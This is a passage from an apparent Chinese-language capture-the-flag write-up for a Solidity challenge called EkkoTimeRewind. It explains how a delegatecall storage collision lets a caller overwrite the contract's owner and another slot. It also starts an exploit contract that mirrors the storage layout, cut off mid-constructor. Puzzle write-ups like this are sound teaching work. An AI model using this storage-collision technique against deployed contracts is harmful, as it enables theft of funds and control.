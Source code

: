 modifier onlyWhitelisted() {

require(msg.sender == owner, "Not whitelisted");

\_;

}

}

\`\`\`

这题的isSolved很简单：让Time0和Time1都经过设置，且Time0要大于Time1+4，那么我们发现题目合约中能够进行修改的所有函数都是经过`onlyWhitelisted`修饰过的，也就是说我们首先得获取到owner权限才能进行下一步操作

在进行进一步的做题之前，首先我们需要了解delegatecall的机制，不过有点麻烦，我这里也不是很想展开讲，各位可以自己搜一下资料了解delegatecall

这里获取owner权限运用的正是“保留上下文”，这里我们利`setZDriveOwner`函数对ZDriveContract进行delegatecall的时候，\*\*修改的并不是ZDriveContract的Owner，而是EkkoTimeRewind的Owner\*\*，也就是说我们只需要让传入`_ZDriveowner`是自己就行了，这样我们就在白名单里面了

接下来看setTime相关的操作，我们发现无论如何都只能进行1次设置时间的操作，而这就导致不管修改的是哪个Time，另一个Time就再也无法被修改了，无法满足题目条件，但是我们查看上面获取Owner的时候还能传入一`_Description`，说明我们还会修改EkkoTimeRewind的某一个参数，此时需要注意\*\*Solidity中的constant并不会保存在Storage中，也就是说这里`_Description`修改的其实`rewindBeforeTime`的值！\*\*因此我们在获取Owner的时候传入`_Description`实际上应该是我们的某个合约，这个合约要有一`setRewindBeforeTime`函数，这样我们通`setTime`进行delegatecall的时候就会直接调用到我们自己的合约的函数，这里给出一个简单的攻击合约的例子，目前已经在本地环境通过：（虽然题目私链为Istanbul分叉，我在Cancun分叉测试的，但是两个分叉期间delegatecall本身并没有太多改动）

\`\`\`Solidity

// exp.sol

// SPDX-License-Identifier: MIT

pragma solidity 0.8.18;

interface EkkoTimeRewind {

function setZDriveowner(bytes\[\] calldata data) external;

function setTime(bytes\[\] calldata data) external;

}

contract Attack{

address public owner;

address public rewindBeforeTime;

address public rewindAfterTime;

uint256 public Time0;

uint256 public Time1;

bool private isSetZDriveownerCalled = false;

bool private isSetTimeCalled = false;

address public zDriveContractAddress;

EkkoTimeRewind Ekko;

constructor(address \_ekko) {
